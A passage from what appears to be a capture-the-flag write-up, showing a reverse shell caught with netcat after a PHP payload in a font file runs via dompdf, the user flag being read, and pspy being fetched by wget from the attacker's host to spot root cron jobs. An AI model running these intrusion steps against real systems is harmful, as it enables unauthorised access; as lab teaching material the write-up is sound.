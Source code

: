 The server then executes the PHP in our font file, and we get a reverse shell plus immediately obtain the user flag!:

```bash
$nc -lvnp 3322
Listening on 0.0.0.0 3322
Connection received on 10.10.11.200 51042
bash: cannot set terminal process group (1160): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$
bash-4.4$ ls /home
ls /home
dev
bash-4.4$ ls -la /home/dev
ls -la /home/dev
total 32
drwxr-xr-x 4 dev  dev  4096 Jan 16 09:49 .
drwxr-xr-x 3 root root 4096 Jan 16 09:49 ..
lrwxrwxrwx 1 root root    9 Jan 10 12:56 .bash_history -> /dev/null
-rw-r--r-- 1 dev  dev   220 Jan 10 12:55 .bash_logout
-rw-r--r-- 1 dev  dev  3771 Jan 10 12:55 .bashrc
drwx------ 2 dev  dev  4096 Jan 16 09:49 .cache
drwx------ 3 dev  dev  4096 Jan 16 09:49 .gnupg
-rw-r--r-- 1 dev  dev   807 Jan 10 12:55 .profile
-rw-r--r-- 1 root dev    33 Mar 31 10:01 user.txt
bash-4.4$ cat /home/dev/user.txt
cat /home/dev/user.txt
8f78875f28ba9ffcb836c64e03ec7e87
```

You'll notice I used `exploitfont2` for the font name, and the cached filename above -- my first PHP shell didn't work, and I had to tweak the name, as the font is cached and would not be fetched again without changing the name.

## Privilege Escalation

First I checked the output of `ps aux --forest`, but no running processes stood out.  Let's run a copy of process spy on the target, and see if anything interesting, such as a cron job, runs:

```bash
bash-4.4$ cd /dev/shm                       
cd /dev/shm
bash-4.4$ wget http://10.10.14.15:8081/pspy64
wget http://10.10.14.15:8081/pspy64
--2023-04-01 07:58:37--  http://10.10.14.15:8081/pspy64
Connecting to 10.10.14.15:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: 'pspy64'


bash-4.4$ chmod +x pspy64
chmod +x pspy64
bash-4.4$ ./pspy64

2023/04/01 08:00:01 CMD: UID=0    PID=34707  | /usr/sbin/CRON -f 
2023/04/01 08:00:01 CMD: UID=0    PID=34706  | /bin/bash /root/clean.sh 
2023/04/01 08:00:01 CMD: UID=0    PID=34705  | /bin/sh -c /root/clean.sh 
2023/04/01 08:00:01 CMD: UID=0    PID=34704  | /usr/sbin/CRON -f 
2023/04/01 08:00:01 CMD: UID=0    PID=34703  | /usr/sbin/CRON -f 
2023/04/01 08:00:01 CMD: UID=0    PID=34708  | /bin/bash /usr/local/sbin/cleancache.sh 
2023/04/01 08:00:01 CMD: UID=0    PID=34710  | /bin/bash /usr/local/sbin/cleancache.sh 
2023/04/01 08:00:01 CMD: UID=0    PID=34709  | find /var/www/api/vendor/dompdf/dompdf/lib/fonts/ -type f -cmin -5 -exec rm {} ; 
```